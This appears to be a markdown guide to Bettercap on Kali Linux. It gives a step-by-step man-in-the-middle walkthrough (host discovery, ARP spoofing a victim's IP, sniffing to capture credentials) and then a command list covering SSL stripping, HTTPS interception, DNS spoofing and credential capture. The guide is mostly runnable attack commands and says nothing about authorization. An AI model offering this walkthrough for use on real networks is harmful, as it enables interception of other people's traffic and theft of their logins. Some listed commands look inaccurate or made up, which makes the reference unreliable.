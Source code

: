 ## 🚀 **Comprehensive Guide to Bettercap for MITM Attacks in Kali Linux**

Bettercap is a powerful, modern tool designed for performing Man-in-the-Middle (MITM) attacks. It offers a user-friendly experience and extensive capabilities to intercept, analyze, and manipulate network traffic.

### Step-by-Step Guide to Using Bettercap

**Step 1: Installation (Typically pre-installed on Kali Linux)**

Update your repository and install Bettercap:

```bash
sudo apt update
sudo apt install bettercap
```

**Step 2: Starting Bettercap**

Launch Bettercap specifying your network interface:

```bash
sudo bettercap -iface eth0
```
*(Replace `eth0` with your network interface, e.g., `wlan0`)*

### 🔧 **Important Parameters:**
- **-iface**: Specifies the network interface to use (e.g., eth0, wlan0).
- **-eval**: Executes a specific command upon launch (e.g., `-eval "net.probe on"`).

**Step 3: Network Discovery**

Activate network discovery modules:

```bash
net.probe on    # Sends ICMP probes to detect live hosts
net.recon on    # Passively discovers hosts on the network
```

### 🔧 **Additional Commands for Network Discovery:**
- `net.probe off`: Stops active network probing.
- `net.recon off`: Stops passive network reconnaissance.

**Step 4: Identifying Targets**

List all devices discovered on the network:

```bash
net.show
```

This command lists IP and MAC addresses, hostnames, and vendor information of devices.

**Step 5: Initiating MITM Attack (ARP Spoofing)**

Set your target and enable ARP spoofing:

```bash
set arp.spoof.targets TARGET_IP
arp.spoof on
```
*(Replace `TARGET_IP` with your victim's IP address. Multiple IPs can be separated by commas.)*

### 🔧 **ARP Spoofing Commands:**
- `arp.spoof.targets`: Specifies targets by IP.
- `arp.spoof.whitelist`: Excludes certain IPs from spoofing.
- `arp.spoof.internal`: Set to true/false to spoof internal gateway communication.

**Step 6: Sniffing Network Traffic**

Activate packet sniffing to capture credentials and other data:

```bash
net.sniff on
```

### 🔧 **Additional Sniffing Commands:**
- `net.sniff.local`: Capture local traffic (default: false).
- `net.sniff.output`: Saves captured traffic to a file (e.g., `set net.sniff.output capture.pcap`).

**Step 7: Monitoring Captured Data**

Captured credentials and data (HTTP, HTTPS, FTP, etc.) will appear live in your terminal.

**Step 8: Ending the MITM Attack**

Stop the attack gracefully and exit Bettercap:

```bash
arp.spoof off
net.sniff off
net.probe off
net.recon off
exit
```

------------------------------------------------------------------------------

# Generally Commands

## 🚀 **Comprehensive Bettercap Command List**

Here's an extensive list of commonly used commands, parameters, and detailed explanations for Bettercap, a powerful penetration testing and network analysis tool:

### 📡 **General Commands:**
- `help`: Display help information about Bettercap and its modules.
- `exit`: Exit the Bettercap application.
- `clear`: Clear the current terminal screen.
- `sessions`: Show current active sessions.
- `version`: Show Bettercap version information.

### 🌐 **Network Interface & Basic Setup:**
- `-iface <interface>`: Specify the network interface to use (e.g., eth0, wlan0).
- `-eval <commands>`: Execute specific commands automatically at startup.
- `-caplet <path>`: Load and execute commands from a caplet file (script file).
- `-no-colors`: Disable colored terminal output.
- `-silent`: Run Bettercap without banner or verbose messages.

### 🛠️ **Network Discovery & Reconnaissance:**
- `net.probe on/off`: Actively scan network devices using ICMP requests.
- `net.recon on/off`: Passively identify hosts on the network.
- `net.show`: Display discovered devices, including IP, MAC, and hostname information.
- `net.clear`: Clear discovered device information.

### 🎯 **ARP Spoofing (MITM Attacks):**
- `set arp.spoof.targets <IP(s)>`: Set specific target IP(s) for ARP spoofing.
- `arp.spoof on/off`: Enable or disable ARP spoofing.
- `set arp.spoof.internal true/false`: Enable spoofing of internal network communications.
- `set arp.spoof.whitelist <IPs>`: IP addresses excluded from spoofing.

### 📥 **Packet Sniffing:**
- `net.sniff on/off`: Begin or halt packet capturing.
- `set net.sniff.local true/false`: Capture local (host) traffic (default is false).
- `set net.sniff.output <file.pcap>`: Save captured network traffic to a file.
- `net.sniff.stats`: Show statistics about the sniffed traffic.

### 🔐 **HTTPS & SSL Stripping:**
- `https.proxy on/off`: Enable or disable HTTPS interception.
- `set https.proxy.sslstrip true/false`: Activate SSL stripping to downgrade HTTPS to HTTP.
- `set https.proxy.certificate <path>`: Use a custom SSL certificate for HTTPS interception.
- `https.proxy.hosts`: List hosts currently targeted by HTTPS interception.

### 📤 **DNS Spoofing:**
- `dns.spoof on/off`: Start or stop DNS spoofing.
- `set dns.spoof.address <IP>`: Redirect targeted DNS requests to a specified IP.
- `set dns.spoof.domains <domains>`: Specific domains to spoof (comma-separated).

### 🔍 **Credential Capturing & Analysis:**
- `net.sniff.credentials on/off`: Capture usernames and passwords from intercepted traffic.
- `credentials.show`: Display captured credentials.
- `credentials.clear`: Clear the captured credentials log.

### 📤 **Spoofing & Manipulation:**
- `spoof.redirect on/off`: Redirect traffic to another IP address.
- `set spoof.dns true/false`: Toggle DNS spoofing capabilities.
- `set http.proxy.script <script>`: Execute custom scripts to manipulate HTTP traffic.

### 📁 **Data & Logs Management:**
- `events.show`: Display logged events.
- `events.clear`: Clear logged events.
- `set events.stream.output <file>`: Redirect event logging to a specified file.

### 💻 **Web Interface (Web UI):**
- `ui.help`: Show help for the Bettercap Web interface.
- `ui.update`: Update the Web UI module.
- `ui.run`: Launch Bettercap’s Web UI interface for visual interaction and control.

### 🛠️ **Additional Useful Commands:**
- `alias`: Define shortcuts for frequently used commands.
- `set`: View or set module-specific options.
- `get`: Retrieve current values for options.



